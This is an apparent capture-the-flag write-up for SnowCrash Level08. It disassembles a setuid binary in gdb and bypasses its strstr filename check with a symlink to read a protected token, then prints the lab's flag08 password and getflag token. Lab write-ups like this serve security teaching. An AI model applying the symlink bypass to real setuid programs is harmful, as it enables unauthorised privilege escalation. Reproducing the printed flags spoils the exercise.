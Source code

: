 # SnowCrash

## Level08

```sh
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```sh
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

```sh
(gdb) disas main
Dump of assembler code for function main:
	...
   0x080485af <+91>:    movl   $0x8048793,0x4(%esp) #Needle of strstr
   0x080485b7 <+99>:    mov    %eax,(%esp)
   0x080485ba <+102>:   call   0x8048400 <strstr@plt> # First we can see that strstr is called
   0x080485bf <+107>:   test   %eax,%eax # It check the return value of strstr inside an if
   0x080485c1 <+109>:   je     0x80485e9 <main+149> # If the condition is valid we jump to BLOCK B 
   # otherwise BLOCK A is executed

   0x080485c3 <+111>:   mov    0x1c(%esp),%eax # BLOCK A
   0x080485c7 <+115>:   add    $0x4,%eax
   0x080485ca <+118>:   mov    (%eax),%edx
   0x080485cc <+120>:   mov    $0x8048799,%eax
   0x080485d1 <+125>:   mov    %edx,0x4(%esp)
   0x080485d5 <+129>:   mov    %eax,(%esp)
   0x080485d8 <+132>:   call   0x8048420 <printf@plt>
   0x080485dd <+137>:   movl   $0x1,(%esp)
   0x080485e4 <+144>:   call   0x8048460 <exit@plt>


   0x080485e9 <+149>:   mov    0x1c(%esp),%eax # BLOCK B
   ...
End of assembler dump.
```

esp is the first argument of strstr (haystack) and esp+4 is the second argument of strstr(needle)
Haystack is probably argv[0] which is the filename, let's check what it is being compared to (probably "token")

```sh
(gdb) x/s 0x8048793
0x8048793:       "token"
```

Let's try with a symlink in order to bypass the strstr check

```sh
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/exploit
level08@SnowCrash:~$ ./level08 /tmp/exploit
quif5eloekouj29ke0vouxean

level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```